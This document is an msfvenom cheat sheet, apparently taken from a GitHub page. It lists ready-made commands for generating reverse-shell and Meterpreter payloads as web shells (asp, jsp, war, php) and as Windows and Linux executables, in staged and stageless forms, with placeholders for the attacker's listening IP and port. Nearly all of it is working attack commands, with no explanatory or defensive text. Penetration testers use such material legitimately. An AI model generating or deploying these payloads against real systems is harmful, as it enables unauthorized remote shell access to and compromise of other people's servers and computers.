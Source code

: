 ## Non-Meterpreter Web Payloads

|   |   |
|---|---|
|asp|`msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`|
|jsp|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp`|
|war|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war`|
|php|`msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php`|

---

## Meterpreter Binaries

Staged Payloads for Windows

|   |   |
|---|---|
|x86|`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`|
|x64|`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe`|

Stageless Payloads for Windows

|   |   |
|---|---|
|x86|`msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`|
|x64|`msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe`|

Staged Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

Stageless Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

---

## Meterpreter Web Payloads

|   |   |
|---|---|
|asp|`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`|
|jsp|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp`|
|war|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war`|
|php|`msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php`|

---